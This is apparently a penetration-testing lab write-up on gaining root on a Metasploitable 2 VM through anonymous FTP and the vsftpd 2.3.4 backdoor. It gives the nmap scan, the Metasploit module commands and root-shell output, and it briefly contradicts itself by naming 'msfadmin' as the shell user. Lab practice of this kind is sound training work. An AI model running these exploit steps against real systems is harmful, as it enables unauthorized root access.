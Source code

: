 # 📁 FTP (Port 21) – Anonymous Login & Backdoor Exploit

> This section documents the discovery of an anonymous FTP login and the exploitation of a backdoor vulnerability in vsftpd 2.3.4 on Metasploitable 2.

---

## 🔍 Service Discovery

Initial Nmap version scan:

```bash
nmap -sV -sC -p 21 192.168.182.128
```

📌 Output:
- FTP service: vsftpd 2.3.4
- Anonymous login: **Allowed**

---

## 🔑 Step 1: Anonymous Login Attempt

```bash
ftp 192.168.182.128
Name: anonymous
Password: (leave blank)
```

📌 Result: Logged in successfully. No valuable files found.

---

## ☠️ Step 2: Version Research & Exploit

Service version (`vsftpd 2.3.4`) is known to contain a malicious backdoor.  
Found exploit on [Exploit-DB 49757](https://www.exploit-db.com/exploits/49757).

### Metasploit Module Used:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.182.128
set RPORT 21
run
```

📌 Result:
```bash
[*] Backdoor service has been spawned.
[*] Command shell session opened.
```

---

## 🧠 Step 3: Shell Access & Privileges

```bash
whoami
→ root
```

```bash
hostname
→ metasploitable
```

```bash
id
→ uid=0(root) gid=0(root)
```

Shell user: `msfadmin` (discovered after access)

✅ Exploit provided **root-level shell** access.

---

## 🔐 Summary

| Element       | Details                      |
|---------------|------------------------------|
| Service       | vsftpd 2.3.4                 |
| Vulnerability | Malicious backdoor           |
| Exploit Used  | Metasploit `vsftpd_234_backdoor` |
| Shell Type    | Command shell                |
| User          | root                         |
| Extra Info    | Logged in initially via anonymous FTP |

✅ Full root access gained via Metasploit.

---


